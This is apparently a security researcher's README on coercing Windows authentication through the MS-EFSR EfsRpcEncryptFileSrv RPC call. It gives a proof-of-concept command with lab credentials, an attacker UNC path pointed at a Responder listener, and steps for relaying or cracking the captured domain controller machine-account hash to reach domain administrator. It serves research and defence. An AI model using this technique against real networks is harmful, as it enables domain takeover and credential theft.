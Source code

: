 # MS-EFSR - Remote call to EfsRpcEncryptFileSrv (opnum 4)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Function name**: [`EfsRpcEncryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76)

 - **Function operation number**: `4`

 - **RPC Interfaces**:
   + Interface 1:
     - uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\lsarpc`
       + SMB named pipe: `\PIPE\lsass`
       + SMB named pipe: `\PIPE\netlogon`
       + SMB named pipe: `\PIPE\samr`
   + Interface 2:
     - uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\efsrpc`


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcEncryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcEncryptFileSrv("\\\\192.168.2.51\\share\\file.txt\x00")
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
long EfsRpcEncryptFileSrv(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **FileName**: An EFSRPC identifier as specified in section 2.2.1. 

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


 - Documentation of function `EfsRpcEncryptFileSrv`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76